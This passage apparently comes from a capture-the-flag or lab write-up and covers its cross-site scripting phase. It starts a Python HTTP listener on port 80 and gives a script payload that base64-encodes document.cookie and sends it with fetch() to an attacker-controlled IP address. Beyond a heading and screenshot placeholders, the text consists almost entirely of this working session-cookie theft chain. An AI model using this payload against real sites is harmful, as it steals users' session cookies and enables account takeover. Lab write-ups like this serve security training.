 > **Cross Site Scripting (XSS) Phase**
> 

`python3 -m http.server 80`

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

![image.png](image%204.png)

**PAYLOAD:**

```bash
<script>fetch('http://10.2.37.37/?'+btoa(document.cookie));</script>
```

![image.png](image%205.png)
